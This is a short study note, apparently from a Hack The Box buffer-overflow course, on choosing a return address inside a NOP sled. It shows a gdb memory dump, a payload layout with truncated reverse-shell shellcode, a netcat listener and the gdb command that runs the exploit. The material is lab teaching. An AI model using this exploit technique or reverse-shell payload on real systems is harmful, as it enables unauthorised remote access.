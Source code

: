 ```yaml
---
title: "Identify Return Address"
tags:
  - cs/hacking
  - cs/hacking/stack-overflow
  - cs/hacking/htb
programming-languagues:
created: 2022-07-12
---
```

# Identify Return Address
---
We need a memory address where our NOPs are located to tell the EIP to jump to it. It must not contain any of the bad characters found.

- NOPS:
```bash
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

We have to choose an address to which we refer the **EIP** and which reads and executes one byte after the other starting at this address. In this example, we take `0xffffd64c`, it looks like this:

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

We then replace our `\x66` which overwrites the EIP to tell it to jump to the `0xffffd64c` address:

```
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
```

Since our shellcode creates a reverse shell, we let **netcat** listen on port 31337:

```bash
nc -nlvp 31337
```

Then we run our exploit again:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```